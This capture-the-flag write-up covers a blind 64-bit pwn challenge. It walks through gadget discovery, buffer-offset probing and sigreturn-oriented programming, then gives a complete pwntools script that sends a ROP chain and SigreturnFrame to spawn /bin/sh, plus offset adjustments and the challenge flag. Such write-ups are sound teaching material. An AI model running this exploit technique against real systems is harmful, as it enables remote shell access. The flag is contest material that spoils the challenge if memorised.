






# Push Writeup

Remember those Sarah McLaughlan commercials about the puppies? We do. We made a blind challenge to remind you about the heartbreak.

0.cloud.chals.io:21978

Author: v10l3nt

## Overview

Upon connecting to the server, we get prompted by this:



If we ask for more pushes, we get what seems to be push statements and a return, followed by what seems to be an address pointing to that instruction.



From the address length, I think it is safe to assume this is a 64 bit system. These instructions seem to be constant between runs while the address of them are not. There seems to be recurring values in these instructions: 0x0f05 and 0x58. Upon looking up these values, it seems as if 0x58 is equivalent to the `pop rax; ret` instruction whereas 0x0f05 are the opcodes for the `syscall` instruction. This isn't much to work with, but from what we're given, it seems as if the intended path from here is to cause a sigreturn!

A sigreturn is a syscall that makes the program pull bytes off of the stack and put them into EVERY register. If we control what gets put onto the stack, then we get to control every register! Since it seems we have arbitrary write because we don't get any warning about a size limit, we can write anything we want to the stack and, in turn, set every register to what we want!

## Planning

Since we are given a `/bin/sh` string address and we have a syscall instruction with a `pop rax` gadget, the easiest solution would be to call `execve` via syscall number 59 and pass the `/bin/sh` address into `rdi`.

## Execution

Now we have to figure out how to use these addresses. If I just wanted a `syscall; ret` ROP gadget, I would ideally want `0x0f 0x05 ret`. This can be found 2 bytes into the second instruction we are given (`push 0x0f050f05; ret`). To access this, we would have to return to the given addess + 2 to ignore the prior 0x0f 0x05 bytes. We have the same deal with the `pop rax; ret` gadget. With the first instruction we're given (`push 0x58585858; ret`), we can just ignore the first 3 0x58 bytes and just continue from the last 0x58 byte, giving us `0x58; ret`, which is just `pop rax; ret`!

Now that we have 2 gadgets, we can now focus on the sigreturn part. To cause a sigreturn, we need to put `0xf` into the `rax` register and then call `syscall`. Since we concluded this was a 64 bit system earlier, each address/register is 8 bytes. The next problem to solve is the amount of padding we need. To figure this out, I went ahead and put in inputs of increasing length to figure out when the program crashed. This would probably be the end of the base pointer. Here, we found out the length is 16, so there's probably a buffer of length 8 and then the base pointer immediately afterwards.



Since we know the bounds of the buffer, we can now attempt to blindly call the sigreturn.

From my pwn experience, we usually need to overwrite `rbp` after the buffer, which would be 8 bytes. 

Next, we have the `rip` register. This is where we will start the ROP chain. First, we need to call `pop rax; ret`. We'll add our offset address to the payload. Next, we need to pop 0xf into the `rax` register, so we'll put that on the stack next. Right after, we need to call `syscall`. We can add our address we got earlier to the chain, and that should be it!

Now I think it is important to note that we don't have any definitive proof that the sigreturn went off successfully, which is very unfortunate. Let's just continue as if we have it all working.

Now that a supposed sigreturn has been called, we need to create a sigreturn frame to push onto the stack after the `syscall` gadget to set all the registers to what we want. The goal is to call `execve('/bin/sh')`, so we need `syscall` in the `rip` register so it gets called next, `0x3b` in the `rax` register to use the `execve` syscall, the `/bin/sh` string in `rdi` (the first argument of the call) to spawn the shell, and zeroes in the rest of the registers. Luckily, pwntools has a very nice way to create sigreturn frames, so this won't be too much of an issue.

```python
from pwn import *

context.arch = "amd64"

p = remote("0.cloud.chals.io", 21978)

p.recvuntil(b": ")

tmp = p.recvline().decode()
print(tmp)
BIN_SH = int(tmp.strip()[2:], 16)
print(f"/bin/sh: {hex(BIN_SH)}")

p.recvline()

p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 3
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 2
print(f"Syscall instruction: {hex(SYSCALL)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
p.recvuntil(b">>> ")

# Get 0xa into RAX to cause a Sigreturn
payload = b"A"*8
payload += b"B"*8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL)

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdx = 0
frame.rsi = 0
frame.rdi = BIN_SH
frame.rip = SYSCALL

payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Once we have the frame situated, we are ready to test it out! We can append the frame to the end of our previous payload and send it along with it. This is the result:



Huh, we didn't get a shell... :/

Now time for the tweaking. There are a few places where we aren't 100% confident. We made the assumption that the address given with each instruction pointed to the start of the instruction. However, this could very well NOT be the case. To try and see if this is the underlying issue, lets just go ahead and add offsets to each address manually and test it out. One of the offset combinations resulted in a shell being popped!

```python
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 6
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 4
print(f"Syscall instruction: {hex(SYSCALL)}")
```


It seems as if the working combination of offsets were 2 times what we had arrived as earlier, which is very strange. I'm not entirely sure why this was the case for this problem. Regardless, now we can go ahead and read the flag!



Flag: `uscg{ch4ng3_and_gr0wth_is_s0_pa1nful}`
